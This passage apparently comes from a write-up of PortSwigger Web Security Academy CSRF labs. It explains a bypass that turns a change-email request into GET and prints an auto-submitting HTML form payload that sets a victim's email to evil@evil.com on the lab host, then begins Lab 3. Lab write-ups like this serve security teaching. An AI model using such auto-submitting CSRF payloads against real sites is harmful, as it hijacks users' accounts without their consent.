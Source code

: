 However, by changing this to a GET request, I can change the email without the CSRF token:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-2.png)

Here's the payload I used:

```html
<form class="login-form" name="change-email-form" action="https://0a6a001c0447238280c071fc002f0046.web-security-academy.net/my-account/change-email" method="GET">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 3: Token Validation depends on Token Presence

To solve this lab, change the email address of the victim. This lab has a CSRF token:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-3.png)
